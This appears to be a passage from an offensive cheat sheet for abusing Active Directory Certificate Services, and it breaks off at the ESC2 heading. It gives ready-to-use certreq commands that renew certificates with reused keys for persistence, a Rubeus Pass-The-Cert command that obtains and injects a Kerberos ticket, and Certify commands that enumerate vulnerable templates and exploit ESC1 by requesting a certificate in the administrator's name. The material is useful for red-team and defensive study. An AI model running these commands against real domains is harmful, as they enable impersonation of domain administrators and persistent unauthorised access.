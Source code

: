 
<br>

### <a name="110"></a>1.10 &nbsp;&nbsp; Renew (PERSIST3)

```
certreq -enroll -user -q -PolicyServer * -cert CERT_HASH renew reusekeys
certreq -enroll -user -q -cert CERT_HASH renew
```

<br>

### <a name="111"></a>1.11 &nbsp;&nbsp; Pass-The-Cert

```
C:\Tools\Rubeus.exe asktgt /user:USER /certificate:C:\Certs\USER.pfx /password:PASSWORD /domain:DOMAIN /dc:DC.DOMAIN /nowrap /ptt
```

<br>

---------------------------------------


# <a name="2"></a>ESCx Abuses

### <a name="21"></a>2.1 &nbsp;&nbsp; ESC1

Conditions:

- ENROLLEE_SUPPLIES_SUBJECT flag is enabled allowing SAN

- Client Authentication bit is enabled
   - Smart Card Logon --> 1.3.6.1.4.1.311.20.2.2
   - PKINIT authentication --> 1.3.6.1.5.2.3.4
   - Client Authentication --> 1.3.6.1.5.5.7.3.2

- Enrollment Rights enabled for a user you control

Enumeration:

```
C:\Users\Public\Certify.exe cas
C:\Tools\Certify.exe find /enrolleeSuppliesSubject
C:\Users\Public\Certify.exe find /domain:protectedDOMAIN
```

Exploitation:

```
C:\Users\Public\Certify.exe request /ca:CA_NAME /template:TEMPLATE_NAME /altname:administrator /sidextension:DOMAIN_SID-500 /domain:DOMAIN
```

<br>

### <a name="22"></a>2.2 &nbsp;&nbsp; ESC2
